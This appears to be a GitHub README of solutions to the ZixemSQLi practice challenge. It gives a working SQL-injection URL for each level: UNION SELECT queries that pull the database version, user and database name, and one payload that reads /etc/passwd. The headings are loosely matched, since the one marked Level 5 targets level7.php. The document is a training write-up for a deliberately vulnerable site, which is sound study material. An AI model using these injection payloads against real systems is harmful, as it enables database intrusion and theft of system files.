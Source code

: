 # ZixemSQLi Challange

[READ RULES](http://www.zixem.altervista.org/SQLi/index.php)

## LEVEL 1

```
http://www.zixem.altervista.org/SQLi/level1.php?id=1111%20union%20select%20concat_ws(0x3a,%20version(),%20user()),%2022,%203
```

## LEVEL 2

```
http://www.zixem.altervista.org/SQLi/level2.php?showprofile=-1' union select database(),version(),user(),4--+
```

## LEVEL 3

```
http://www.zixem.altervista.org/SQLi/level3.php?item=-4%27%20unionon%20SeLect%20database(),User(),version(),4--+
```

## LEVEL 4

```
http://www.zixem.altervista.org/SQLi/level4.php?ebookid=999%27%20union%20select%20version(),2,user(),4,5--+
```

## LEVEL 5

```
view-source:http://www.zixem.altervista.org/SQLi/level7.php?id=1111111%20union%20select%201,concat_ws(0x3a,%20version(),user()),2--+
```

## LEVEL 9

```
http://www.zixem.altervista.org/SQLi/lvl9.php?id=2%27%20union%20select%20%22../etc/passwd%22,%202--+
```



